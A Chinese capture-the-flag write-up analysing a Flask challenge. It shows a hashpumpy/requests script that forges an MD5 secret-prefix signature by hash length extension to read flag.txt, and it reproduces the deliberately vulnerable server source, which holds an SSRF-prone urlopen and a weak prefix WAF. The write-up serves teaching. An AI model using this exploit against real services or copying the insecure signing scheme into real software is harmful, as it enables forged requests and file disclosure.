





## 思路

1. 题目提示hint为`flag is in ./flag.txt`，另外打开网页显示一段flask代码，如下：



​	整理代码进行分析，主要分为两大块。

- class Task

- 三个路由，对应这三个路由，分别有不同的执行动作

  

  - @app.route("/geneSign", methods=['GET', 'POST'])

    - 获取param参数值，并将action设置为scan
    - 获取sign值（调用getSign函数）

  - @app.route('/De1ta',methods=['GET','POST'])

    - 获取param参数值，并从cookie获取action和sign值
    - 调用Task类，并返回task.Exec()返回值

  - @app.route('/')

    - 根目录路由，即打开网页显示的内容

  - 分析完三个路由其实就可以比较清晰的看出，Task.exec()应该是一个比较重要的函数，设置特定参数值，即可获取flag内容。

    

  2. 分析class Task

     - 函数首先会checkSign，即验证sign值是否正确。
     - 然后会判断scan和read这两个字符串是否在cookie action中
       - scan：先打开tmpfile文件，然后读取传入param对应的文件，并将读取的文件内容写入tmpfile
       - read：读取scan中tmpfile对应的文件内容
       - 最后返回result

     因此如果想读取flag，完整的流程应该是，通过checkSign验证，然后先读取flag.txt，写入tmp文件中，再读取tmp文件。

     这样会**要求**：

     - getSign(self.action, self.param) == self.sign
       - hashlib.md5(secert_key + param + action).hexdigest()
       - 即当前action和param产生的md5值，与cookie中sign值相同
     - scan和read均在cookie的action值中。

  3. 绕过方法：

     **设置sign值，**

  --》根据传入一个param参数值，geneSign可以获取一个sign值

  ​	   但这里生成的sign值中action始终为scan，与上面的第二点要求冲突。

  ​		因此可以从md5生成方式入手：

  ​		题目是对`secert_key + param + action`三者拼接而成的字符串进行md5，而在获取flag时，必须设置action为readscan/scanread，则这里可以考虑在geneSign页面输入param时，直接输入flag.txtread，然后与geneSign中的action拼接后便为flag.txtreadscan，满足要求。

  

  

  4. 这里也可使用另外一种方法：**哈希长度扩展攻击**

     主要使用python的hashpumpy库

脚本如下：

```python
import hashpumpy
import requests
import urllib.parse

txt1 = 'flag.txt'
r = requests.get('http://**/geneSign', params={'param': txt1})
sign = r.text
hash_sign = hashpumpy.hashpump(sign, txt1 + 'scan', 'read', 16)

r = requests.get('http://**/De1ta', params={'param': txt1}, cookies={
    'sign': hash_sign[0],
    'action': urllib.parse.quote(hash_sign[1][len(txt1):])
})

print(r.text)
```

附录（源码）：

```python
#! /usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json
reload(sys)
sys.setdefaultencoding('latin1')

app = Flask(__name__)

secert_key = os.urandom(16)


class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print resp
                    tmpfile.write(resp)
                    tmpfile.close()
                result['code'] = 200
            if "read" in self.action:
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
            if result['code'] == 500:
                result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
        return result

    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):
            return True
        else:
            return False


#generate Sign For Action Scan.
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.unquote(request.args.get("param", ""))
    action = "scan"
    return getSign(action, param)


@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.unquote(request.cookies.get("action"))
    param = urllib.unquote(request.args.get("param", ""))
    sign = urllib.unquote(request.cookies.get("sign"))
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())
@app.route('/')
def index():
    return open("code.txt","r").read()


def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"


def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()


def md5(content):
    return hashlib.md5(content).hexdigest()


def waf(param):
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False


if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0')
```


## 总结

- 主要考察flask源码审查，整个代码逻辑理清楚之后还是比较容易做出了的
- 注意本题的第二种方法  **哈希长度扩展攻击** 值得学习